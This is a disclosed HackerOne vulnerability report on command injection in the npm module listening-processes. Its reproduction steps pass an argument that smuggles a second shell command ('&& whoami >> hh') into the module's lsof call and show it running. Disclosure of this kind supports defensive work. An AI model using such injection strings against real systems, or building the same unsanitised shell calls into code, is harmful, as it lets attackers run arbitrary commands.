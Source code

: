 # [listening-processes] Command Injection

## Report Details
- **Report ID**: 511459
- **URL**: https://hackerone.com/reports/511459
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-03-18T08:14:28.733Z
- **Disclosed**: 2020-02-02T23:00:31.595Z

## Reporter
- **Username**: notpwnguy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Command Injection in listening-processes
It allows an attacker to execute arbitrary commands.

# Module

**module name:** listening-processes
**version:** 1.2.0
**npm page:** `https://www.npmjs.com/package/listening-processes`

## Module Description

> A simple NPM module for retrieving pertinent info on processes which are listening on local ports, and for killing those processes using shell commands lsof, ps, and kill in the background.

## Module Stats

6 downloads in the last day
12 downloads in the last week
28 downloads in the last month

# Vulnerability

## Vulnerability Description

> An attacker can execute arbitrary commands by escaping the binaries used by the module since it uses bash commands. 

## Steps To Reproduce:

```
$ node
> const processes = require('listening-processes')
> processes(`'Python && whoami >> hh;'`)
/bin/sh: \s.*:[0-9]* (LISTEN): command not found
{ Python:
   [ { command: 'Python',
       pid: '14720',
       port: '8000',
       invokingCommand:
        '/usr/local/Cellar/python/3.7.0/Frameworks/Python.framework/Versions/3.7/Resources/Python.app/Contents/MacOS/Python -m http.server' } ] }
```
```
$ cat hh
notpwnguy
```
## Patch

> If you're able to provide a patch with the fix please post it in this section

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- OPERATING SYSTEM VERSION : Mac Os
- NODEJS VERSION : v10.5.0
- NPM VERSION : 6.2.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Arbitrary Commands can be executed!

## Attachments
No attachments
